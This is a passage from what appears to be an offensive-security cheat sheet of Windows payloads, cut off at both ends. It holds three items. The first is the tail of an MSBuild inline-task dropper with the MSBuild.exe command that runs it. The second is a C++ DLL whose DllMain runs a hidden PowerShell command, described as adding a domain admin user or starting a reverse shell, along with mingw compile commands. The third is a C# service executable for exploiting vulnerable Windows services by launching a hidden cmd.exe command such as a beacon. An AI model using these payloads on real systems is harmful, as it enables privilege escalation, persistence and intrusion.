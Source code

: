                             }
                        }
                    ]]>
                </Code>
            </Task>
        </UsingTask>
    </Project>
    ```
- 2\. Payload can be executed via: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe dropper.xml`

##### _DLL payload:_
Simple customizable \.dll payload that can run an OS command \(e\.g\. creates new admin user \(only works for domain joined systems\) or starts a reverse shell\):
- 1\. Create customdll\.cpp and modify the OS command to execute:
    ```C
    #include <windows.h>
    int owned()
    {
        WinExec("powershell.exe <PS COMMAND>",0);
        return 0;
    }
        BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
    {
        owned();
        return 0;
    }
    ```
- 2\. Make sure the C\+\+ compiler is installed on your system: `apt-get install g++-mingw-w64-x86-64`
- 3\. Compile the dll binary: 
	- 1: `x86_64-w64-mingw32-gcc -c -DBUILDING_EXAMPLE_DLL adduser.cpp`
	- 2: `x86_64-w64-mingw32-gcc -shared -o adduser.dll adduser.o -Wl,--out-implib,adduser.a`

##### _Windows Service EXE payload:_
This payload can be used in the situation a vulnerable service is exploited and will most likely crash shortly after exploitation \(e\.g\. unquoted service path and modifiable service binary\)\. This payload will start a second process that will stay alive after the vulnerable service process dies\. 
- 1\. Modify the code so it runs a command that for example runs a beacon payload or adds an admin user to the system and save it as script\.cs:
    ```Csharp
    using System;
    using System.Collections.Generic;
    using System.Diagnostics;
    using System.Linq;
    using System.Text;
    using System.Threading.Tasks;
    
    namespace WindowsService
    {
        class Program
        {
            static void Main(string[] args)
            {
            // start connection
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = "/C <COMMAND PLACE HOLDER>";
            psi.UseShellExecute = false;
            psi.CreateNoWindow = true;
            psi.WindowStyle = ProcessWindowStyle.Hidden;
            var proc = new Process();
            proc.StartInfo = psi;
